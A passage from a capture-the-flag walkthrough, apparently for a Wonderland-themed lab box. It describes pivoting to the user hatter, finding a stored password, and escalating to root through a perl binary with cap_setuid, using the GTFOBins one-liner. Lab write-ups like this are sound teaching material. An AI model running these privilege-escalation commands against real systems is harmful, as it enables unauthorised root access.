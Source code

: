 - Made it executable:
  ```bash
  chmod +x date
  ```
- Ran `teaParty`:
  ```bash
  ./teaParty
  ```
- Got a shell as `hatter`.

### 9. Explore as Hatter
- Navigated to `/home/hatter`:
  ```bash
  cd /home/hatter
  ls
  ```
- Found a file with `hatter`’s password: `TryToGetThis!` (example password).
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output: No `sudo` privileges.
- Searched for `user.txt` in `/`—not found yet.

### 10. Escalate to Root
- Checked for Linux capabilities:
  ```bash
  getcap -r / 2>/dev/null
  ```
- Output:
  ```
  /usr/bin/perl5.26.1 = cap_setuid+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/perl = cap_setuid+ep
  ```
- Researched `perl` on [GTFOBins](https://gtfobins.github.io/):
  ```bash
  perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
  ```
- Got `Permission denied`. Checked `id`:
  ```bash
  id
  ```
- Output: Still in `rabbit`’s group.
- Switched to `hatter`:
  ```bash
  su hatter
  ```
- Password: `TryToGetThis!`
- Retried the Perl command:
  ```bash
  perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
  ```
- Got a root shell (`#` prompt).
